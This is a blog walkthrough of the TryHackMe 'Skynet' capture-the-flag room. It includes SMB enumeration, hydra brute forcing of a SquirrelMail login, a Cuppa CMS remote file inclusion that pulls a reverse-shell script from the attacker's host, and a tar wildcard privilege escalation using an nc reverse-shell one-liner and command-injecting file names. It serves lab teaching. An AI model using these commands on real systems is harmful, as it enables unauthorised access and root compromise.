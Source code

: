 ```yaml
---
layout: post
permalink: /posts/thm/skynet
title: "Skynet"
---
```


Hello everyone, today we are going to walk through the Skynet room. To begin with scan the target machine with nmap.

```
nmap -sC -sV <ip>
```

![nmap-initial](/assets/images/thm/skynet/nmap-initial.png)

There are open ports 22, 80, 110, 139, 143 and 445. Go to the web page

![website](/assets/images/thm/skynet/website.png)

There is no useful information on the page so we are going to scan with smbmap

```
python3 smbmap.py -H 10.10.60.45
```

We can notice that there is anonymous share. Let's try to connect it.

![smbmap](/assets/images/thm/skynet/smbmap.png)

```
smbclient //<ip>/anonymous
```

![smbclient](/assets/images/thm/skynet/smbclient.png)

On the SMB server we find folder logs. There is 3 log files in it but only log1.txt has some content.
It looks as password and maybe one of them is the Miles password. I tried to brute SSH and POP3 but the result was unsuccessful <br />

Let's try to find other directories on the web server.

```
gobuster dir -u http://10.10.60.45/ -w SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![gobuster-initial](/assets/images/thm/skynet/gobuster-initial.png)

From the gobuster scan we have discovered a directory /squirrelmail

![squirrelmail](/assets/images/thm/skynet/squirrelmail.png)

Now we are going to try to brute force this login page. Type some username and password and catch the request with BurpSuite. <br />

Here is our error response

![error](/assets/images/thm/skynet/error.png)

Burp catching

![burp](/assets/images/thm/skynet/burp.png)

Now we need to create our payload with hydra username “miles” 

```
hydra -l miles -P log1.txt 10.10.60.45 http-form-post "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect." 
```

We wasn't able to brute force it. Let's try with his lastname which we had found in the attention file on SMB anonymous share. <br />

Miles Dyson

```
hydra -l milesdyson -P log1.txt 10.10.60.45 http-form-post "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."
```

![hydra](/assets/images/thm/skynet/hydra.png)

We can also use BurpSuite to brute force the password. Send the request to Intruder

![burp-brute](/assets/images/thm/skynet/burp-brute.png)

Go to the Payloads menu, upload the log1.txt file and start the attack.

![result](/assets/images/thm/skynet/result.png)

And we have logged in.

![webmail](/assets/images/thm/skynet/webmail.png)

Earlier we had found smb share milesdyson and from his inbox we can see what is the password for it

![smb-pass](/assets/images/thm/skynet/smb-pass.png)

Try to log in

```
smbclient //10.10.60.45/milesdyson -U milesdyson
```

When we list the directories we notice there is folder notes with a lot of files let's download all

```
cd notes/
mget *
```

there is a file importnant.txt open it

![important](/assets/images/thm/skynet/impotant.png)

/45kra24zxs28v3yd it looks as hidden directory

![web-hidden](/assets/images/thm/skynet/web-hidden.png)

There is no useful information. Let's scan this directory.

```
gobuster dir -u http://10.10.60.45/45kra24zxs28v3yd/ -w SecLists/Discovery/Web-Content/directory-list-2.3-small.txt

```

![gobuster-second](/assets/images/thm/skynet/gobuster-second.png)

We have found administrator directory

![admin](/assets/images/thm/skynet/admin.png)

We can't log with the miles credentials. Search in Exploit DB for cuppa cms <br />

<https://www.exploit-db.com/exploits/25971>

![cms](/assets/images/thm/skynet/cms.png)

We are going to use monkeyReverseShell.php <br />

Start listener

![nc](/assets/images/thm/skynet/nc.png)

We also need to start python server to be able to download the php script into the target

```
python3 -m hettp.server
```

```
curl http://10.10.60.45/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.9.5.60:8000/monkeyReverseShell.php
```

![curl](/assets/images/thm/skynet/curl.png)

We are in 

![shell](/assets/images/thm/skynet/shell.png)

Stabalize shell

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

user flag is located at /home/milesdyson <br />

Privilege Escalation <br />

we are going to use linpeas

```
cd /dev/shm
wget http://10.9.5.60:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![linpeas](/assets/images/thm/skynet/linpeas.png)

There is a backup script that runs every minute and we have access to it. <br />

Google: tar wildcard exploit <br />
set listener

```
 nc -lvnp 4443
```

```
cd /var/www/html
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.5.60 4443 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```

![root](/assets/images/thm/skynet/root.png)
